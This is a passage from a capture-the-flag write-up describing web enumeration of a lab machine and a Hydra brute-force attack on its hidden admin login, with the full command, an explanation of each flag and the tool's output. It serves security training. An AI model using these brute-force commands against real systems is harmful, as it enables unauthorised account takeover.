 `index.html` is the default ubuntu homepage for apache service. Nothing special.

#### Search for hidden directories on web server. What is the hidden directory?
This is the directory that is hidden above.

### 1.3. Web Exploration
In the hidden directory we get the login panel. Looking at the source code, we get 2 interesting pieces of information:
- name of username and password fields (uselful) in bruteforcing
- username in a comment XD


![The login page in the hidden directory of the ctf](https://i.imgur.com/1o49So5.png)

### 1.4. Brute-Force
From the source we have the variables: `user` and `pass` for username and password respectively.

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.160.189  http-post-form "/{hidden_directory}/:user=^USER^&pass=^PASS^:invalid" -t 32`

Flags:
- -l: for single login
- -P: for a password list
- http-form-post: POST request for a http form
- the syntax for http-form-post is divided into three parts by two ":"s - as "x:y:z"
    - x: path to hidden directory
    - y: user and pass parameter specification
    - z: failure status. Note how "invalid" is a substring present in the failure message.

#### What is the user:password of the admin panel?
Using Hydra, we can find the password.

```
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.98.224 http-post-form "/{hidden_directory}/:user=^USER^&pass=^PASS^:invalid" -t 64 -vv
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-09 02:16:45
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.98.224:80/{hidden_directory}/:user=^USER^&pass=^PASS^:invalid
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.98.224/{hidden_directory}/panel
[VERBOSE] Page redirected to http://10.10.98.224/{hidden_directory}/panel/
[80][http-post-form] host: 10.10.98.224   login: admin   password: {password}
[STATUS] attack finished for 10.10.98.224 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-09 02:17:05
```
